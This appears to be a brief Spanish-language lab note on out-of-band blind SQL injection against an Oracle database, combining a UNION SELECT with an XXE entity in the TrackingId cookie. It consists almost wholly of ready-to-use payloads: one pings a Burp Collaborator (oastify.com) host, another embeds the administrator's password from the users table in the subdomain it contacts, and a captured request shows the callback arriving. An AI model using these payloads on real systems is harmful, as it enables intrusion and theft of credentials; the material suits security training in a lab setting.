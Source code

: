 
Oracle :
```R
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bixkdbjkewy7v26t6d9ep4em9df73zunj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Query para enviar consultas por http aprovechándose de XXE :

```R
Cookie: TrackingId=etAMxiggOe3gdB3i'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.q6xz1q7z2bmmjhu8usxtdj21xs3mret2i.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Petición recibida

```request
GET / HTTP/1.0
Host: s9zz7w8e15przthczh5p.q6xz1q7z2bmmjhu8usxtdj21xs3mret2i.oastify.com
Content-Type: text/plain; charset=utf-8
```

